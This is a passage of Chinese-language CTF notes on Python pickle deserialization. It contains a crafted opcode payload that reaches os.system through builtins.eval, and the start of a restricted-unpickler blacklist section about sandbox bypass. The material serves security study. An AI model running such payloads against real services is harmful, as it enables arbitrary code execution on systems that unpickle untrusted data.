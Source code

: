 `\x81` 便会触发 `clazz.__new__()`

```python
    def load_newobj(self):
        args = self.stack.pop()
        cls = self.stack.pop()
        obj = cls.__new__(cls, *args)
        self.append(obj)
```

构造opcode

```python
import pickle, pickletools

opcode = b'''cbuiltins
map
(cbuiltins
eval
(V__import__('os').system('whoami')
tt\x81p0
0cbuiltins
bytes
(g0
t\x81.'''

pickletools.dis(opcode)
pickle.loads(opcode)
```

`bytes`也可以换为`tuple` 、`frozenset`等不可变元素

### 限制builtins

**利用getattr**

[Code-Breaking中的两个Python沙箱 _ 离别歌](F:\LocalCTF\Code-Breaking中的两个Python沙箱 _ 离别歌.html)

```python
import pickle
import io
import builtins
import pickletools

__all__ = ('PickleSerializer', )


class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


class PickleSerializer():
    def dumps(self, obj):
        return pickle.dumps(obj)

    def loads(self, data):
        try:
            if isinstance(data, str):
                raise TypeError("Can't load pickle from unicode string")
```